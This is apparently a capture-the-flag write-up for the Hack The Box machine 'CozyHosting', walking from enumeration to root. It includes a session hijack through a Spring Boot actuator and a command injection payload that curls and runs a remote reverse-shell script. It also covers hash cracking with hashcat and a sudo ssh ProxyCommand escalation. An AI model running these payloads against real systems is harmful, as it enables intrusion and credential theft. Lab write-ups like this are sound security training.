





# CozyHosting
### OS: Linux
### Difficulty: Easy

## Enumeration:
I'll start with a port scan.
```bash
nmap -sC -sV -p- 10.129.159.47 -oN nmap.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll start by taking a look at the HTTP server. I'll first need to add "cozyhosting.htb" to my hosts file.


I'll run gobuster against the web server.
```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```



The last line of the error page suggests that Spring Boot is being used. I'll run gobuster again but with a spring boot specific word list.
```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt

/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 98]
```

Visiting http://cozyhosting.htb/actuator/sessions reveals the name and JSESSIONID cookie of another user.

```
kanderson 5ED43189577B041AFBAADB1CA9CB62A8
```

We can use this to login.



## Foothold:

Let's take a look at the form.



We can see that an SSH connection is expected to be established. I'll open up Burp Suite and play with the parameters.



We can see that the error parameter has the output of a shell. So there might be a command injection vulnerability.




After experimenting with the parameters, we conclude that an input validation function prevents special characters in the hostname and whitespace in the username. We can use ${IFS} instead.

I'll send a simple reverse shell using curl.

```payload
host=as&username=;curl${IFS}http://10.10.14.85/rev.py|python3;
```

On host:
```bash
rlwrap nc -lnvp 6666
```
And we got a shell.

## Lateral movement:

Let's take a look at the directory.
```bash
ls -la
-rw-r--r--  1 root root 60259688 Aug 11  2023 cloudhosting-0.0.1.jar
```

There might be valuable information in this file. I'll transfer it to my machine and analyze it.
```bash
# On host
nc -l 6667 > cloudhosting-0.0.1.jar

# On target
nc 10.10.14.85 6667 < cloudhosting-0.0.1.jar
```

I found credentials for the database in 'Resource/BOOT-INF/application.properites'.
```
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

We can connect to the database to obtain credentials.
```bash
cat /etc/passwd|grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash


psql  --host='localhost' --port=5432 --username='postgres' -W

\list
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres

\connect cozyhosting

\dt # list tables
 public | hosts | table | postgres
 public | users | table | postgres

select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

We can now crack the password for admin.
```bash
hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

hashcat -m 3200 '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' /usr/share/wordlists/rockyou.txt

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

We have obtained the admin password, which may belong to the user Josh. I'll try to connect via SSH.
```bash
ssh josh@cozyhosting.htb
manchesterunited
```

It worked! We can now get the user flag.
```bash
cat user.txt
```

### We got the user flag!

## Privilege Escalation:

First, we need to check whether we can execute commands as root.
```bash
sudo -l

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

In this case we can leverage [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/).

```bash
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x

whoami
root
```

We can get the root flag.
```bash
cat /root/root.txt
```

### We got the root flag!